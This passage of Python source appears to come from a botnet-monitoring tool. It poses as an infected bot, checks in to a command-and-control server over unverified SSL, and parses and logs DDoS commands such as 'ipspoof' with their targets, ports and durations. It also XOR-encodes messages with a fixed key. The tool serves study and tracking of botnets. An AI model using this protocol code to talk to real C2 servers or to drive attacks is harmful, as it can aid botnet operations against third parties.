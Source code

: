    ```python
                       if target_item.find(':'):
                           target.append(target_item.split(':')[0])
                           detail["port"] = target_item.split(':')[1]
                       else:
                           target.append(target_item)
               elif i == 3:
                   detail["atk_thread"] = cmd_list[i]
               elif i == 6:
                   detail["atk_time"] = cmd_list[i]
               else:
                   param.append(cmd_list[i])
           else:
               detail["target"] = target
       else:
   
           for i in range(1, len(cmd_list)):
               param.append(cmd_list[i])
       # detail["param"] = param
       # print(param)
   
       write_log("./analy.log", command, detail)
   
   
   def encode(message):
       key = b'\xb2\x09\xbb\x55\x93\x6d\x44\x47'
       index = 0 
       data = ""
       hex_string = "0123456789abcdef"
       enc_string = ""
       for i in range(len(message)):
           index = index % 8
           data = ord(message[i]) ^ key[index]
           high = hex_string[data//16]
           low = hex_string[data%16]
           enc_string = enc_string + high + low
       return enc_string
   
   
   
   
   def connect_ssl(server_ip, server_port):
       socket_server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
       ssl_socket = ssl.wrap_socket(socket_server, cert_reqs=ssl.CERT_NONE)
       ssl_socket.connect((server_ip, server_port))
       send_content = "online192.168.146.129-generic*-*-x86_64*-*-4*-*-*-*-*-*-Syn*-*-1*-*-1.0.0*-*-~~!!@@##$$%%^^&&**" #上线包
       #send_content = "online5.4.0-122-generic*-*-x86_64*-*-2*-*-220.181.41.14*-*-*-*-Syn*-*-1*-*-1.0.0*-*-~~!!@@##$$%%^^&&**"
       ssl_socket.send(send_content.encode())
       count = True
       try:
           while True:
               recv_content = ssl_socket.recv()
               if recv_content[:7] == b"ipspoof" and count:
                   ## send back to C2
                   back_msg = ""
                   target = []
                   recv_list = recv_content.decode().split('<<<<<!!>>>>>')
                   content_recv = recv_list[0].split('*-*-')
                   target.append('ipfpof')
                   target.append(content_recv[2])
                   target.append(content_recv[1])
                   target.append(content_recv[3])
   ```